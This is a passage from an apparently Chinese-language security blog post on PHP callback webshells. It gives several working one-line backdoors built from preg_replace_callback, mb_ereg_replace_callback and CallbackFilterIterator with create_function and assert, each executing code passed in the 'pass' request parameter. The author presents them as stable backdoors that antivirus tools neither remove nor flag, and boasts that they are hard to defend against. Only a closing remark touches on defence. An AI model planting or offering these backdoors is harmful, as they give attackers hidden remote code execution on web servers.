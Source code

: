 自行研究吧。

0x08 其他参数型回调后门

上面说了，回调函数格式为1、2、3参数的时候，可以利用assert、assert、preg_replace来执行代码。但如果回调函数的格式是其他参数数目，或者参数类型不是简单字符串，怎么办？

举个例子，php5.5以后建议用preg_replace_callback代替preg_replace的/e模式来处理正则执行替换，那么其实preg_replace_callback也是可以构造回调后门的。

preg_replace_callback的第二个参数是回调函数，但这个回调函数被传入的参数是一个数组，如果直接将这个指定为assert，就会执行不了，因为assert接受的参数是字符串。

所以我们需要去“构造”一个满足条件的回调函数。

怎么构造？使用create_function：

    preg_replace_callback('/.+/i', create_function('$arr', 'return assert($arr[0]);'),$_REQUEST['pass']);

“创造”一个函数，它接受一个数组，并将数组的第一个元素$arr[0]传入assert。

这也是一个不杀不报稳定执行的回调后门，但因为有create_function这个敏感函数，所以看起来总是不太爽。不过也是没办法的事。 类似的，这个也同样：


    mb_ereg_replace_callback('.+', create_function('$arr', 'return assert($arr[0]);'),$_REQUEST['pass']);

再来一个利用CallbackFilterIterator方法的回调后门：

    $iterator = new CallbackFilterIterator(new ArrayIterator(array($_REQUEST['pass'],)), create_function('$a', 'assert($a);'));
    foreach ($iterator as $item) {
    echo $item;}

这里也是借用了create_function来创建回调函数。但有些同学就问了，这里创建的回调函数只有一个参数呀？实际上这里如果传入assert，是会报错的，具体原因自己分析。

0x09 后记

这一篇文章，就像一枚核武器，爆出了太多无特征的一句话后门。我知道相关厂商在看了文章以后，会有一些小动作。不过我既然敢写出来，那么我就敢保证这些方法是多么难以防御。

实际上，回调后门是灵活且无穷无尽的后门，只要php还在发展，那么就有很多很多拥有回调函数的后门被创造。想要防御这样的后门，光光去指哪防哪肯定是不够的。

简单想一下，只有我们去控制住assert、preg_replace这类函数，才有可能防住这种漏洞。

